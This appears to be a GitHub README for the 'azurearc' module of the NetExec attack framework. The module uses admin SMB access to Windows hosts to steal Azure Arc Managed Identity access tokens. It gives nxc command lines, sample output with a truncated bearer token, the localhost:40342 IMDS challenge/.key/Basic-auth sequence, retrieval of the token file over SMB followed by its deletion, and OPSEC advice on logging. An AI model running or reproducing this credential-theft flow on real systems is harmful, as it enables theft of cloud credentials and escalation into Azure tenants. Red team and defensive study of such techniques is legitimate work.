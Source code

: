 # NetExec Module: `azurearc`
Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

* **Protocol:** SMB (requires local administrator privileges)
* **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.


  
## ✨ Features

* **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
* **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.


    
  
# ⚙️ Usage

* Add the module file at:  
  nxc/modules/azurearc.py

  
## Presence check only :
```
nxc smb  -u <USER> -p <PASS> -M azurearc -o CHECK=true
```
## Token dump :
```
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc  
[*] Attempting to retrieve Azure Arc Managed Identity access token  
[+] Managed Identity token retrieved  
{
"access_token": "eyJhbGciOi......",
"expires_on": "1730812345",
"token_type": "Bearer",
"resource": "https://management.azure.com"
}
```
## 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent*   
C:\Program Files (x86)\AzureConnectedMachineAgent*
### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=... → expect 401 with WWW-Authenticate: Basic realm="<path to .key>" Read the .key contents (requires local admin).  
2.Second GET with Authorization: Basic to obtain token JSON.   
Write JSON to OUTFILE, fetch via SMB, and delete the file.
### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/31a6fe6a-7b17-4ead-8f4f-461993a402c8" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/66d38783-4033-4e86-a293-f69149ceb5ff" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.
### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud  
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

